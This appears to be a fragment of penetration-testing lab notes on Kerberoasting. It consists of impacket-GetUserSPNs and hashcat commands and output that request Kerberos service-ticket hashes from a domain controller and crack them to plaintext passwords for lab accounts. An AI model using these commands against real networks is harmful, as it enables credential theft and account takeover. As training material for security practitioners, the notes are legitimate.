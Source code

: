 ```
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```
{% endcode %}

The output of the above command shows that 13100 is the correct mode to crack TGS-REP hashes.

{% code title="" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...

$krb5tgs$23$*iis_service$corp.com$HTTP/web04.corp.com:80@corp.com*$940ad9dcf5dd5cd8e91a86d4ba0396db$f57066a4f4f8ff5d70df39b0c98ed7948a5db08d689b92446e600b49fd502dea39a8ed3b0b766e5cd40410464263557bc0e4025bfb92d89ba5c12c26c72232905dec4d060d3c8988945419ab4a7e7adec407d22bf6871d
...
d8a2033fc64622eaef566f4740659d2e520b17bd383a47da74b54048397a4aaf06093b95322ddb81ce63694e0d1a8fa974f4df071c461b65cbb3dbcaec65478798bc909bc94:Strawberry1
...
```
{% endcode %}

### Impacket-GetUserSPNs

{% code title="" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete                                      
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
ServicePrincipalName    Name         MemberOf  PasswordLastSet             LastLogon  Delegation 
----------------------  -----------  --------  --------------------------  ---------  ----------
HTTP/web04.corp.com:80  iis_service            2022-09-07 08:38:43.411468  <never>               


[-] CCache file is not found. Skipping...
$krb5tgs$23$*iis_service$CORP.COM$corp.com/iis_service*$21b427f7d7befca7abfe9fa79ce4de60$ac1459588a99d36fb31cee7aefb03cd740e9cc6d9816806cc1ea44b147384afb551723719a6d3b960adf6b2ce4e2741f7d0ec27a87c4c8bb4e5b1bb455714d3dd52c16a4e4c242df94897994ec0087cf5cfb16c2cb64439d514241eec...
```
{% endcode %}

{% code title="Cracking the TGS-REP hash" overflow="wrap" lineNumbers="true" %}
```
kali@kali:~/beyond$ sudo hashcat -m 13100 daniela.hash /usr/share/wordlists/rockyou.txt --force
...
$krb5tgs$23$*daniela$BEYOND.COM$beyond.com/daniela*$b0750f4754ff26fe77d2288ae3cca539$0922083b88587a2e765298cc7d499b368f7c39c7f6941a4b419d8bb1405e7097891c1af0a885ee76ccd1f32e988d6c4653e5cf4ab9602004d84a6e1702d2fbd5a3379bd376de696b0e8993aeef5b1e78fb24f5d3c
...
3d3e9d5c0770cc6754c338887f11b5a85563de36196b00d5cddecf494cfc43fcbef3b73ade4c9b09c8ef405b801d205bf0b21a3bca7ad3f59b0ac7f6184ecc1d6f066016bb37552ff6dd098f934b2405b99501f2287128bff4071409cec4e9545d9fad76e6b18900b308eaac8b575f60bb:DANIelaRO123
...

```
{% endcode %}
